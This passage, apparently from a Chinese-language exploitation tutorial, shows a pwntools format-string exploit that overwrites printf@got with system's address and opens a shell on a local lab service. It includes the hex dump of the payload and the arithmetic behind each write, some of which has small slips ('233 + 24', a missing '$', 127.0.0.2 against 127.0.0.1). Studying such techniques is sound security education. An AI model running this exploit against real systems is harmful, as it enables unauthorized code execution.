 ```text
[*] system address: 0xf7df9c50
[*] printf address: 0xf7e0e670
```

DynELF 不要求我们拿到 libc.so，所以如果我们查询不到 libc.so 的版本信息，该模块就能发挥它最大的作用。

### attack

按照格式化字符串漏洞的套路，我们通过任意写将 printf@got 指向的内存覆盖为 system 的地址，然后发送字符串 `/bin/sh`，就可以在调用 `printf("/bin/sh")` 的时候实际上调用 `system("/bin/sh")`。

终极 payload 如下，使用 `fmtstr_payload` 函数来自动构造，将：

```python
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.0.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```

虽说有这样的自动化函数很方便，基本的手工构造还是要懂的，看一下生成的 payload 长什么样子：

```text
[DEBUG] Sent 0x3a bytes:
    00000000  74 99 04 08  75 99 04 08  76 99 04 08  77 99 04 08  │t···│u···│v···│w···│
    00000010  25 36 34 63  25 37 24 68  68 6e 25 37  36 63 25 38  │%64c│%7$h│hn%7│6c%8│
    00000020  24 68 68 6e  25 36 37 63  25 39 24 68  68 6e 25 32  │$hhn│%67c│%9$h│hn%2│
    00000030  34 63 25 31  30 24 68 68  6e 0a                     │4c%1│0$hh│n·│
    0000003a
```

开头是 printf@got 地址，四个字节分别位于：

```text
0x08049974
0x08049975
0x08049976
0x08049977
```

然后是格式字符串 `%64c%7$hhn%76c%8hhn%67c%9$hhn%24c%10$hhn`：

```text
16  + 64 = 80  = 0x50
80  + 76 = 156 = 0x9c
156 + 67 = 223 = 0xdf
233 + 24 = 247 = 0xf7
```

就这样将 system 的地址写入了内存。

Bingo!!!

```text
$ python2 exp.py
[+] Opening connection to 127.0.0.2 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```
